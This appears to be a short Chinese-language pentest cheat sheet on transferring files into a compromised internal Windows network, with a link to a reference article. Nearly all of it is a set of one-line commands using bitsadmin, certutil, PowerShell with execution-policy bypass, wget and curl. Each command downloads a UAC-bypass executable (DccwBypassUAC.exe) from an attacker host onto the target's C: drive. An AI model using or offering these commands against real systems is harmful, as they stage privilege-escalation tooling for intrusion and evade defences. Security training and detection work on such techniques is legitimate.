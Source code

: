    - 参考文章：[内网域文件传输](https://blog.csdn.net/qq_36374896/article/details/84350015)

2. 具体使用方法

   - vbs：不推荐

   - ftp：

     ``` shell
     ftp -s:ftp.txt
     ```

   - bitsadmin：

     ``` shell
     bitsadmin /transfer n http://192.168.0.101:8081/DccwBypassUAC.exe c:\DccwBypassUAC.exe
     ```

   - certutil

     ``` shell
     certutil -urlcache -split -f http://192.168.0.101:8081/DccwBypassUAC.exe c:\DccwBypassUAC.exe
     ```

   - powershell

     ``` powershell
     powershell -exec bypass -c (New-Object System.Net.WebClient).DownloadFile('http://192.168.0.101:8081/DccwBypassUAC.exe','c:\DccwBypassUAC.exe')
     ```

   - nc：不推荐

   - wget

     ``` shell
     wget http://192.168.0.101:8081/DccwBypassUAC.exe
     ```

   - curl

     ``` shell
     curl http://192.168.0.101:8081/DccwBypassUAC.exe --output myphp.php
     ```